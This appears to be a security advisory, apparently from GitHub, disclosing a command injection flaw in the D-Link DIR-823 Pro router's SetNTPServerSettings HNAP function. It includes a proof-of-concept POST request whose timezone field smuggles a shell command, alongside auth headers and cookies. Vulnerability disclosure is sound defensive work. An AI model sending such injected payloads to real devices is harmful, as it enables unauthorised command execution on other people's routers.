


# D-link 823pro v1.0.2  has a commend injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: D-link (http://www.dlink.com.cn/)
- **Products**: WiFi Router Link 823 pro
- **Firmware download address:** http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-823

## Description

### 1.Product Information:

DIR-823_A1_FW100WWb04




### 2.Vulnerability details

Drink 823-pro DIR-823_A1_FW100WWb04 was discovered to contain a command injection vulnerability in `SetNTPServerSetings` function




### 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 81
Accept: application/json
HNAP_AUTH: 84E9E7AB41420A00EC4C179066EAF998 1646491157369
SOAPACTION: "http://purenetworks.com/HNAP1/SetNTPServerSettings"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/SNTP.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=QD6gTcDw; PrivateKey=AE0E560AEB738499F86E570B459ED5F2; work_mode=router; timeout=108
Connection: close

{"SetNTPServerSettings":{"system_time_timezone":"$(ls > /www/web/ls)"}}
```


